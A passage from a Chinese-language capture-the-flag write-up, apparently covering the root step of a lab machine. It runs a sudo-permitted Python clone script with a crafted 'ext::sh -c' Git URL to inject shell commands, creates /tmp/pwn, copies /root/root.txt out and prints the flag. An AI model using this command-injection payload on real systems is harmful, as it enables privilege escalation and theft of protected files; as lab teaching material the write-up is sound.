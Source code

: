 檢查一下版本有沒有符合 `pip show gitpython`
![image](https://hackmd.io/_uploads/Bk3O0Kfrke.png)

是符合的 來試看看 輸入
```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwn'

ls -l 確實有創建 /tmp/pwn 

這時可以用這個把 root.txt 複製出來 成功拿到 flag
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root.txt'
```

拿到 flag `6ae806f30bdb9b443d9d3d720241c5ee`
![image](https://hackmd.io/_uploads/rkvJd9MrJx.png)
